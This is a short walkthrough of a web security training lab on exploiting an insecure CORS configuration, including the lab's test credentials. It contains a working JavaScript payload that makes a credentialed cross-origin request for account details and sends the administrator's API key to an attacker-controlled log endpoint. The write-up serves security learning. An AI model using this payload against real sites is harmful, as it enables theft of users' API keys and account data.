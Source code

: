 
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter


1. Log in with the provided credentials.

2. Observe that there is a request that asks for all the user details, and notice it responds with the API key. Also, in the response there is the header *Access-Control-Allow-Credentials* which suggests it may supports CORS. 

3. In the repeater add the header `Origin:https://test.com` observe that the header *Access-Control-Allow-Credentials* reflects your Origin header.




4. In the exploit server input this code 

`<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0add00550418535a80c39f1000eb000a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>`


and deliver it to the victim, you will see that in the access log it will respond with the API key of the administrator.
